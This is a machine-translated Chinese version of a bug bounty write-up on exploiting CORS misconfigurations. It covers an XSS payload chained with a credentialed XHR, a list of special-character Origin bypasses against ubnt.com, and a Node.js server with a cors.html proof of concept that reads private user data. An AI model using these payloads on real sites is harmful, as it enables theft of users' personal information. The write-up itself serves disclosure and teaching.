# 思考范围之外:先进的 CORS 开发技术

> 原文：<https://infosecwriteups.com/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397?source=collection_archive---------0----------------------->

大家好，

我叫阿尤布，是来自摩洛哥的安全研究员。在本文中，我将描述我如何能够利用 CORS 错误配置的两个不同案例:第一个案例基于 XSS，需要超出范围的思考，第二个案例基于高级 CORS 利用技术。

> 注意:在你开始阅读这篇文章之前，你需要对什么是 CORS 以及如何利用错误配置有一个基本的了解。这里有一些很棒的帖子可以让你跟上:

*   [**Portswigger 的帖子**](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)
*   [**极客的 Pos**](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/) **t**

# 案例:#1

## 易受攻击端点

大约一年前，我在黑这个私人程序，由 HackerOne 主持。在处理了 HTTP 请求中的 Origin 头，然后检查服务器响应以检查它们是否做了域白名单检查之后，我注意到应用程序只是盲目地将子域列入白名单，甚至是不存在的子域。

出于隐私原因和负责任的披露政策，让我们假设 web 应用程序位于:[www.redacted.com](http://www.redacted.com)

这个 CORS 错误配置看起来像这样:

***HTTP 请求:***

> GET /api/return HTTP/1.1
> 主机:[www.redacted.com](http://www.redacted.com)产地:**evil.redacted.com**连接:关闭

***HTTP 响应:***

> HTTP/1.1 200 OK
> 访问控制允许凭证:true
> 访问控制允许来源:**evil.redacted.com**

这个 API 端点返回用户的私人信息，比如全名、电子邮件地址等等。

为了滥用这种错误配置，我们可以进行攻击，比如泄露用户的私人信息，我们需要声明一个废弃的子域(**子域接管)、**或者在一个现有的子域中找到一个 **XSS** 。

## 跳出范围思考

找到一个废弃的子域并不是那么简单，所以我决定选择第二种方法，在一个现有的子域中找到一个 XSS。然而，这个私有程序的范围仅限于:[www.redacted.com，](http://www.redacted.com,)这意味着在其他子域中查找 XSS 肯定不在范围之内，但是将这个 XSS 与 CORS 错误配置链接起来却在范围之内。对吗？

事实上，其他子域名不在范围之内，这让我更有信心，因为其他黑客不会测试它们，所以在这些子域名上找到 XSS 的机会很大。

于是，我开始寻找这个 XSS，带着一颗充满希望的心去寻找，不到一个小时，我在 banques.redacted.com*的**找到了一个，使用的有效载荷如下:***

```
**https://banques.redacted.com/choice-quiz?form_banque=****"><script>alert(document.domain)</script>****&form_cartes=73&iframestat=1**
```

**

*是时候创建一个不错的概念证明，并提交报告了*

## *再现:*

*因此，要利用这个 CORS 错误配置，我们只需用以下代码替换 XSS 有效负载***alert(document . domain)***:*

```
*function cors() {  
var xhttp = new XMLHttpRequest();  
xhttp.onreadystatechange = function() {    
    if (this.status == 200) {    
    alert(this.responseText);     
    document.getElementById("demo").innerHTML = this.responseText;    
    }  
};  
xhttp.open("GET", "***https://www.redacted.com/api/return***", true);  
xhttp.withCredentials = true;  
xhttp.send();
}
cors();*
```

*像这样:*

```
**https://banques.redacted.com/choice-quiz?form_banque=****">*<script>*function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.redacted.com/api/return",true);xhttp.withCredentials=true;xhttp.send()}cors();*</script>***&form_cartes=73&iframestat=1**
```

*瞧，我们现在有了一个不错的概念验证:*

**

## *报酬*

**

*现在，如果我告诉你，你仍然可以滥用这个问题，而不需要在任何现有的子域名中找到一个 XSS，或声称一个被遗弃的。*

*这正是我们将在第二个案例中讨论的。*

# *案例:#2*

## ***易受攻击的端点***

*这一次，我在做 **Ubnt** 程序，特别是托管在***https://protect.ubnt.com/***的应用程序*

*按照相同的过程，我发现了相同的 CORS 错误配置，与前面的情况类似，但这次应用程序从不同的位置获取用户的私人信息，一个 API 托管在:[***https://client.amplifi.com/***](https://client.amplifi.com/)***API/user/****

*该应用程序还盲目地将任何子域列入白名单，甚至是不存在的子域。*

**

*正如我们之前所讨论的，要滥用这种 CORS 错误配置，你需要声明一个废弃的子域，或者在一个现有的子域中找到一个 XSS。*

*而且由于这是一个公共程序，范围很大(所有子域都在范围内)；找到 XSS 的机会微乎其微，更不用说子域接管漏洞了。*

*那么，我们是不是走进了死胡同？*

## *先进的 CORS 技术*

*事实证明，还有另一种方法，但这需要一定的条件。*

*最近**柯本狮子座**做了一个有趣的研究，在这里 可以找到 [***。展示了通过在域名中使用特殊字符来绕过某些不正确实现的控件是可能的。***](https://www.corben.io/advanced-cors-techniques/)*

*这项研究是基于这样一个事实，即浏览器在发出请求之前并不总是验证域名。因此，如果使用了某些特殊字符，浏览器可能会在没有事先验证域名是否有效和存在的情况下提交请求。*

## *示例:*

*为了充分理解这个问题，让我们尝试打开一个带有特殊字符的 URL，例如:[***http://asdf `+ = . with Google . com .***](http://asdf`+=.withgoogle.com.)*大多数浏览器在发出任何请求之前都会验证域名。**

**域名[](http://asdf`+=.withgoogle.com.)**被用作演示，因为它的有一个**通配符 DNS 记录******

> ****铬:****

****

**来自[https://www.corben.io/advanced-cors-techniques/](https://www.corben.io/advanced-cors-techniques/)**

> ****火狐:****

****

**来自[https://www.corben.io/advanced-cors-techniques/](https://www.corben.io/advanced-cors-techniques/)**

> ****游猎:****

**如你所见，Safari 是个例外，它会发送请求并尝试加载页面，这与其他浏览器不同。**

****

**来自[https://www.corben.io/advanced-cors-techniques/](https://www.corben.io/advanced-cors-techniques/)**

**我们可以使用各种不同的字符，甚至是不可打印的字符:**

```
**,&'";!$^*()+=`~-_=|{}%

// non printable chars
%01-08,%0b,%0c,%0e,%0f,%10-%1f,%7f**
```

**此外，大卫·达内隆的另一项研究表明，这些特殊字符的其他子集也可以在其他浏览器上使用。**

****

**出自 [**大卫【达内隆】**](https://www.bedefended.com/papers/cors-security-guide) 考证:**[**【https://www.bedefended.com/papers/cors-security-guide】**](https://www.bedefended.com/papers/cors-security-guide)****

****现在，我们知道了所有这些，我们怎么能滥用这个问题来执行高级 CORS 利用技术，为了更好的演示，让我们回到易受攻击的 web 应用程序上:[***https://client.amplifi.com/***](https://client.amplifi.com/)****

## ****新方法****

****在这种情况下，web 应用程序也接受下面的 Origin ****.ubnt.com！. evil.com*******

********

****不仅仅是字符“！”，但也有以下几种:****

```
*****.ubnt.com!.evil.com 
*.ubnt.com".evil.com 
*.ubnt.com$.evil.com 
*.ubnt.com%0b.evil.com 
*.ubnt.com%60.evil.com 
*.ubnt.com&.evil.com 
*.ubnt.com'.evil.com 
*.ubnt.com(.evil.com 
*.ubnt.com).evil.com 
*.ubnt.com*.evil.com 
*.ubnt.com,.evil.com 
*.ubnt.com;.evil.com 
*.ubnt.com=.evil.com 
*.ubnt.com^.evil.com 
*.ubnt.com`.evil.com 
*.ubnt.com{.evil.com 
*.ubnt.com|.evil.com 
*.ubnt.com}.evil.com 
*.ubnt.com~.evil.com****
```

****现在你应该知道一些浏览器，比如 Safari，接受带有特殊字符的 URL，比如:***https://zzzz . ubnt . com = . evil . com***。****

****所以如果我们设置一个域名:***evil.com***用**通配符 DNS 记录，**允许指向所有子域(*。*evil.com)*到[www.evil.com](http://www.evil.com,)，它们将在类似于***www.evil.com/cors-poc***的页面中托管一个脚本，该脚本将简单地向易受攻击的端点发送一个以子域名为初始值的跨域请求****

****然后不知怎么的我们强制一个认证用户打开了链接:[***https://zzzz . ubnt . com = . evil . com***](https://zzzz.ubnt.com!.evil.com)***/CORS-POC*******

****理论上，我们可以泄露这个用户的私人信息。****

## ****再现:****

1.  ****首先，设置一个带有通配符 DNS 记录的域，将它指向您的机器，在我的例子中，我使用 GoDaddy 托管我的域，配置如下:****

********

****2.安装 NodeJS，创建一个新目录，然后在其中保存以下文件:****

******serve . js******

```
****var http = require('http');
var url  = require('url');
var fs   = require('fs');
var port = 80

http.createServer(function(req, res) {
    if (req.url == '/cors-poc') {
        fs.readFile('cors.html', function(err, data) {
            res.writeHead(200, {'Content-Type':'text/html'});
            res.write(data);
            res.end();
        });
    } else {
        res.writeHead(200, {'Content-Type':'text/html'});
        res.write('never gonna give you up...');
        res.end();
    }
}).listen(port, '0.0.0.0');
console.log(`Serving on port ${port}`);****
```

****3.在同一目录中，保存以下内容:****

*******cors.html*******

```
****<!DOCTYPE html>
<html>
<head><title>CORS</title></head>
<body onload="cors();">
<center>
cors proof-of-concept:<br><br>
<textarea rows="10" cols="60" id="pwnz">
</textarea><br>
</div>

<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("pwnz").innerHTML = this.responseText;
    }
  };
  xhttp.open("GET", "***https://******client.amplifi.com******/api/user/***", true);
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>****
```

****4.通过运行以下命令启动 NodeJS 服务器:****

```
****node serve.js &****
```

****5.现在，登录到应用程序:[**【https://protect.ubnt.com/】**](https://protect.ubnt.com/)*，并检查您是否可以从端点:***【https://client.amplifi.com/api/user/】***检索您的帐户信息*****

****6.最后在 Safari 浏览器中打开链接:[***https://zzzz . ubnt . com = . evil . com***](https://zzzz.ubnt.com!.evil.com)***/CORS-POC***，Voilà。****

****在我的情况下，我使用 iPhone 中的 Safari 浏览器作为 PoC，因为我没有 Mac 电脑。****

********

## ****报酬****

********

# ****外卖食品****

****我相信许多安全研究人员已经遇到过这种情况，您可以在 HackerOne 中找到许多描述这种类型 CORS 错误配置的报告，但是只有少数人能够充分利用它，因为他们的报告中缺少概念验证。****

****这也是我想分享我的经历的原因之一。同时强调利用此类漏洞的其他技术。****

****最后，永远记住，**有时候你只需要跳出****̶b̶o̶x̶**的范围去思考。********

******感谢阅读。欢迎在推特上关注我[https://twitter.com/sandh0t](https://twitter.com/sandh0t)******

******狩猎愉快。******

# ******参考资料:******

*   ******[**Portswigger 的帖子**](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)******
*   ******[**极客男孩的 Pos**](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/) **t********
*   ******[**科本列夫的研究**](https://www.corben.io/advanced-cors-techniques/)******
*   ******[**大卫·达内隆的研究**](https://www.bedefended.com/papers/cors-security-guide)******